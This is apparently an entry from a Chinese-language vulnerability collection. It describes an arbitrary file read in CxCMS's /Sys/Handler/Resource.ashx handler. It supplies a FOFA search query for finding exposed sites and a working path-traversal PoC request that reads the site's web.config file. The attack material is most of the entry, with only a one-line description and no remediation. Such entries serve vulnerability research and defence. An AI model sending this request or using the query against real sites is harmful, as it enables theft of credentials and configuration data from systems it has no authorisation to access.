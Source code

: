 # CxCMS Resource.ashx 任意文件读取漏洞

## 漏洞描述

CxCMS 存在任意文件读取，由于 /Sys/Handler/Resource.ashx 页面 _FilePath 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
CxCMS
```

## FOFA

```
"Powered by CxCms"
```

## 漏洞复现

关键字"Powered by CxCms"

![image-20220518144245685](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181442728.png)

验证POC

```
/Sys/Handler/Resource.ashx?_FilePath=../../web.config
```

![image-20220518144331101](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181443193.png)